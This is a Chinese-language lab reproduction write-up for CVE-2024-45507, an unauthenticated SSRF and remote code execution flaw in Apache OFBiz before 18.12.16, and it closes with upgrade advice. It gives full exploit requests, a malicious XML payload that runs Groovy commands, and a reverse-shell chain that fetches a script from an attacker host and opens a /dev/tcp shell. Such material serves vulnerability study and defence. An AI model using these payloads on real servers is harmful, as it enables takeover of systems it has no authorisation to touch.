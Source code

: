 # Apache OFBiz SSRF 和远程代码执行漏洞 CVE-2024-45507

## 漏洞描述

Apache OFBiz 是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

Apache OFBiz 18.12.16 之前的版本存在一处 SSRF 与远程命令执行漏洞，未经身份验证的攻击者可以利用该漏洞执行任意命令并控制服务器。

参考链接：

- https://github.com/apache/ofbiz-framework/commit/ffb1bc4879
- https://xz.aliyun.com/t/15569
- https://paper.seebug.org/3228/

## 漏洞影响

```
Apache OFBiz < 18.12.16
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.15 服务器：

```
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain your-ip not accepted to prevent host header injection. 
```

![](images/Apache%20OFBiz%20SSRF%20和远程代码执行漏洞%20CVE-2024-45507/image-20240918162954722.png)

## 漏洞复现

### SSRF 漏洞

向 `/webtools/control/forgotPassword/StatsSinceStart` 发送以下 POST 请求即可：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

![](images/Apache%20OFBiz%20SSRF%20和远程代码执行漏洞%20CVE-2024-45507/image-20240918163414162.png)

## 远程代码执行漏洞

首先在服务器 `<attacker-ip>` 上部署恶意 XML 文件 payload.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/awesome_poc'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

然后将恶意 XML 的 URL 替换进请求中发送：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://<attacker-ip>/payload.xml
```

![](images/Apache%20OFBiz%20SSRF%20和远程代码执行漏洞%20CVE-2024-45507/image-20240918163838836.png)

命令 `touch /tmp/awesome_poc` 已经被成功执行：

![](images/Apache%20OFBiz%20SSRF%20和远程代码执行漏洞%20CVE-2024-45507/image-20240918164140447.png)

reverse shell payload：

```
# 1. 在服务器 <attcker-ip> 托管 shell.sh：
echo "/bin/bash -i >& /dev/tcp/<attcker-ip>/8888 0>&1" > shell.sh

# 2. 发送第一个数据包。在服务器 <attcker-ip> 托管 payload.xml，下载 shell.sh：
<actions>
	<set value="${groovy:'wget <attcker-ip>/shell.sh'.execute();}"/>
</actions>

# 3. 发送第二个数据包。在服务器 <attcker-ip> 托管 payload.xml，执行shell.sh：
<actions>
	<set value="${groovy:'bash shell.sh'.execute();}"/>
</actions>
```

## 漏洞修复

升级至 18.12.16 及以上版本。

